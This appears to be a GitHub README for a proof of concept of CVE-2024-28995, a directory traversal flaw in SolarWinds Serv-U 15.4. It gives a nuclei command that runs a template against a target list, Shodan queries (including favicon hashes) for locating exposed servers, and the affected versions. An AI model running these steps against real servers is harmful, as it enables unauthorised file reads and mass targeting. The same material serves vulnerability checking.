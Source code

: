 ## SolarWinds Serv-U Directory Traversal Vulnerability POC

```
cat targets.txt | nuclei -duc -t CVE-2024-28995.yaml 
```

![image](https://github.com/karkis3c/cves/assets/155802810/8d660d33-9132-49e9-aa51-108aab4d63f1)

## Analysis 
https://t.co/JPCd6Y4v1g

## Shodan Querys

```product:"Rhinosoft Serv-U httpd"```

```http.favicon.hash:"812385209,-494622145,-132641984,-2076792107,-1735578509,-938894035,-741511745,-1109617687,963790560,-1882082933"```

```title:"Serv-U"```

## The following versions of Serv-U are affected, running on either Windows or Linux

- Serv-U FTP Server 15.4
- Serv-U Gateway 15.4
- Serv-U MFT Server 15.4

